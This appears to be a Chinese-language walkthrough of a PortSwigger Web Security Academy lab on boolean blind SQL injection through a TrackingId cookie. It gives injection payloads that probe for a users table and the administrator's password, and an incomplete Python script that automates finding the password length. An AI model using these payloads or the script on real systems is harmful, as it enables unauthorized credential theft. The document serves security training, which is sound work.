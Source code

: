 <img src=".\图片\Snipaste_2023-06-16_19-40-01.png" alt="Snipaste_2023-06-16_19-40-01" style="zoom:80%;" />

2、测试盲注

发现存在  `information_schema.tables` 表

```http
TrackingId=tdN8wN7evQTVfo4x'%20AND%20(SELECT%20'a'%20FROM%20information_schema.tables%20LIMIT%201)%3d'a'--
```

发现存在 users 表

```
' AND (SELECT 'a' FROM users LIMIT 1)='a'--
```

猜测表的字段为 username 和 password ，发现存在 administrator 用户

```
' AND (SELECT 'a' FROM users WHERE username='administrator')='a'--
```

python脚本布尔盲注

```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

```
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

```python
import requests
import string

url = "https://0a6700c004f35a9f802d71d500bc005d.web-security-academy.net/"

def getlength():
   for len in range(1, 99):
     exp = f"' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>{len})='a'-- "
     headers = {
         'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36',
         'Cookie': f'TrackingId=9POirhityuQuZTlU{exp}'
     }
     # print(headers)
```